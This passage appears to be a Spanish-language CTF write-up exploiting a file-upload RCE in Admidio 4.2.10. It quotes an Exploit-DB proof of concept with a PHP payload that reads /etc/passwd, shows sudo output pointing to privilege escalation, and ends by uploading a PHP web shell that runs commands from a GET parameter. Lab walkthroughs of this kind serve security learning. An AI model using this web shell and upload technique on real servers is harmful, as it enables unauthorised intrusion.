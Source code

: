 Los resultados muestran múltiples vulnerabilidades para varias versiones, destacando:

- **Admidio v4.2.10 – Remote Code Execution (RCE)**  
    Permite ejecución remota de código mediante la carga de archivos `.phar` en la sección de anuncios.

___
# Explotacion de RCE mediante carga de archivos

Del exploit anterior obtenemos el siguiente [Exploid and PoC](https://www.exploit-db.com/exploits/51590)

```txt
Exploit Title: Admidio v4.2.10 - Remote Code Execution (RCE)
Application: Admidio
Version: 4.2.10
Bugs:  RCE
Technology: PHP
Vendor URL: https://www.admidio.org/
Software Link: https://www.admidio.org/download.php
Date of found: 10.07.2023
Author: Mirabbas Ağalarov
Tested on: Linux
```
```python

2. Technical Details & POC
========================================
Steps:

3. Login to account
4. Go to Announcements
5. Add Entry
6. Upload .phar file in image upload section.
.phar file Content
<?php echo system('cat /etc/passwd');?>
5. Visit .phar file  ( http://localhost/admidio/adm_my_files/announcements/images/20230710-172217_430o3e5ma5dnuvhp.phar )
```
``` bash
www-data@admilost:~/html/adm_my_files/announcements/images$ sudo -l
Matching Defaults entries for www-data on admilost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on admilost:
    (ALL : ALL) NOPASSWD: /usr/local/bin/templater
```

SIguiendo el ejemplo anterior se sube un archivo .php con la siguiente shell dentro

``` php
<?php system($_GET['cmd']); ?>
```
